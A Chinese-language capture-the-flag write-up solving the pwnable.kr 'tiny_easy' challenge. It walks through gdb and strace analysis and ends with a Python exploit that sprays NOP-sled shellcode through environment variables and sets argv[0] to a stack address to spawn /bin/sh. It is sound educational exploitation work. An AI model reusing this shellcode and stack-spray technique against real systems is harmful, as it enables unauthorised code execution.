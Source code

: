 # Tiny_Easy Problem #
> I made a pretty difficult pwn task.
However I also made a dumb rookie mistake and made it too easy :(
This is based on real event :) enjoy.
> ssh tiny_easy@pwnable.kr -p2222 (pw:guest)

## 题目解读
看了题目的描述信息，没有看出有用的细节，于是ssh登录看了一下。目录中有两个文件，一个是答案flag，另外一个是tiny_easy的可执行程序。尝试执行了一下tiny_easy，出现段错误。

### 文件分析
使用scp命令来下载tiny_easy程序（`scp -P 2222 tiny_easy@pwnable.kr:/home/tiny_easy/tiny_easy ./`），并用IDA进行分析。
![](./ida-anaylize.png)
并没有得到有效的信息。
使用gdb-peda，并在程序入口处下断点（这里提供一个下断点的方法，因为没有符号表，可以使用readelf命令来读取文件头，从header中查找文件入口为0x8048054），如下图示：
![](./gdb-peda-show.png)
执行的命令为：./tiny_easy 1234,单步执行到`call edx`的时候出错，可以看到edx对应为`/hom`,它并不是一个有效的地址。
![](./gdb-peda-run.png)
也就是说执行的`pop edx`则是把第二个参数的地址赋值给edx，并把edx地址对应的内容再赋值给edx，最后执行edx。第二个参数就是tiny_easy本身。即程序在开始的运行的时候会把`argc、argv、envp`分别入栈，对应到程序里就是把argc赋给eax，argv赋给edx。

### 知识补充

**strace命令**
> strace常用来跟踪进程执行时的系统调用和所接收的信号。在Linux世界，进程不能直接访问硬件设备，当进程需要访问硬件设备(比如读取磁盘文件，接收网络数据等等)时，必须由用户态模式切换至内核态模式，通过系统调用访问硬件设备。strace可以跟踪到一个进程产生的系统调用,包括参数，返回值，执行消耗的时间。

**strace参数**
>-c 统计每一系统调用的所执行的时间,次数和出错的次数等.   
>-d 输出strace关于标准错误的调试信息. 
>-f 跟踪由fork调用所产生的子进程. 
>-ff 如果提供-o filename,则所有进程的跟踪结果输出到相应的filename.pid中,pid是各进程的进程号. 
>-F 尝试跟踪vfork调用.在-f时,vfork不被跟踪. 
>-h 输出简要的帮助信息. 
>-i 输出系统调用的入口指针. 
>-q 禁止输出关于脱离的消息. 
>-r 打印出相对时间关于,,每一个系统调用. 
>-t 在输出中的每一行前加上时间信息. 
>-tt 在输出中的每一行前加上时间信息,微秒级. 
>-ttt 微秒级输出,以秒了表示时间. 
>-T 显示每一调用所耗的时间. 
>-v 输出所有的系统调用.一些调用关于环境变量,状态,输入输出等调用由于使用频繁,默认不输出. 
>-V 输出strace的版本信息. 
>-x 以十六进制形式输出非标准字符串 
>-xx 所有字符串以十六进制形式输出. 
>-a column 设置返回值的输出位置.默认 为40. 
>-e expr 指定一个表达式,用来控制如何跟踪.格式如下: [qualifier=][!]value1[,value2]... 
qualifier只能是 trace,abbrev,verbose,raw,signal,read,write其中之一.value是用来限定的符号或数字.默认的 qualifier是 trace.感叹号是否定符号.例如: 
-eopen等价于 -e trace=open,表示只跟踪open调用.而-etrace!=open表示跟踪除了open以外的其他调用.有两个特殊的符号 all 和 none. 
注意有些shell使用!来执行历史记录里的命令,所以要使用\\. 
>-e trace=set 
只跟踪指定的系统 调用.例如:-e trace=open,close,rean,write表示只跟踪这四个系统调用.默认的为set=all. 
>-e trace=file 只跟踪有关文件操作的系统调用. 
>-e trace=process 只跟踪有关进程控制的系统调用. 
>-e trace=network 跟踪与网络有关的所有系统调用. 
>-e strace=signal 跟踪所有与系统信号有关的 系统调用 
>-e trace=ipc 跟踪所有与进程通讯有关的系统调用 
>-e abbrev=set 设定 strace输出的系统调用的结果集.-v 等与 abbrev=none.默认为abbrev=all. 
>-e raw=set 将指定的系统调用的参数以十六进制显示. 
>-e signal=set 指定跟踪的系统信号.默认为all.如 signal=!SIGIO(或者signal=!io),表示不跟踪SIGIO信号. 
>-e read=set 输出从指定文件中读出 的数据.例如: 
>-e read=3,5 
>-e write=set 输出写入到指定文件中的数据. 
>-o filename 将strace的输出写入文件filename 
>-p pid 跟踪指定的进程pid. 
>-s strsize 指定输出的字符串的最大长度.默认为32.文件名一直全部输出. 
>-u username 以username 的UID和GID执行被跟踪的命令

**exec命令**
>`exec [-cl] [-a name] [command [arguments]]`
>该命令不会创建新的进程，-a参数表示shell会将name作为第一个参数传给command。具体的细节参照`man exec`。

**软链接和硬链接**
>Linux链接分为两种，Hard Link(硬链接)、Symbolic Link(符号链接)。ln命令默认产生的是硬链接。
>**`硬链接`**：硬连接指通过索引节点来进行连接。在Linux的文件系统中，保存在磁盘分区中的文件不管是什么类型都给它分配一个编号，称为索引节点号(Inode Index)。在Linux中，多个文件名指向同一索引节点是存在的。一般这种连接就是硬连接。硬连接的作用是允许一个文件拥有多个有效路径名。
>**`符号链接`**：也叫软链接。软链接文件类似于Windows的快捷方式，在符号链接中，它实际上是一个文本文件，其中包含另一文件的位置信息。

##解题思路
上面分析过程中提到在执行到`call edx`时出现段错误，而edx的值为程序本身的路径。要是能够更改edx的值为我们想要的目标地址就可以绕过这个段错误。
1. 打开coredump，`ulimit -c unlimited`，然后执行`exec -a 1234 ./tiny_easy &`,这样会产生core文件。

2. 用gdb分析该core文件，`gdb tiny_eay core`，如下图所示：
  ![](./coredump.png)

3. 在地址0x34333221处出现错误，它对应为字符串参数‘1234’，也就是说只要构造参数就可以修改跳转地址，但是只能构造一个地址。如果能构造地址指向一个shellcode，就可以执行该shellcode了。

4. 但如何构造这个地址？通过别人的解答掌握了两种不同的姿势。
    1. 软链接
      我们知道直接执行./tiny_easy时，会产生段错误，而错误的地址值对应为它的路径名。可以使用strace命令查看，`strace -if ./tiny_easy`,结果如下：
      ![](./strace.png)
      该程序为执行execve函数，并且在0x69742f2e处出现崩溃。这里0x69742f2e对应的字符串就是`./ti`,也就说如果能够修改./tiny_easy的名字为shellcode的地址，那就能够执行shellcode了。

    2. 环境变量

       通过上面的分析可以知道需要修改的argv[0]，即把argv[0]修改为shellcode的地址即可。在这里可以使用python的subprocess模块，把argv[0]修改成目标地址，但问题的关键是如何确定目标地址？这里采用一种叫栈喷射(spray)的方法，用大面积的nop指令来填充栈空间，后面跟着shellcode的指令，这样当跳转到nop区域后会平滑移动到shellcode的区域，就能执行了。

5. writeup

```python
import subprocess

jmpaddr = "\xc4\x40\xb4\xff"  //设定的栈地址，可以先用gdb确定一个大概的范围中的一个值，即argv[0]

//shellcode的选取很重要，在这里纠结了好久才成功
shellcode = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
spraycode = "\x90"*8092 //栈喷射区域

payload = spraycode + shellcode
penv = {} //环境变量会加入到栈空间中去

for i in range(200):
    penv["test"+str(i)] = payload

for i in range(20):
    print i
    child = subprocess.Popen([jmpaddr], executable='/home/tiny_easy/tiny_easy', env=penv)
    child.wait()

```



测试过程中，使用了一个从网上找的一个shell code，可能是平台不兼容的问题，一直没跑出来，还以为栈喷射很难用，后来换了一个shellcode后，很快就能生效了。

**What a tiny task :) good job!***


##引用
1. http://blog.yiz96.com/archives/98
2. https://gist.github.com/ihciah/b921fe522244e5b70e7a
3. http://www.secbox.cn/hacker/ctf/5547.html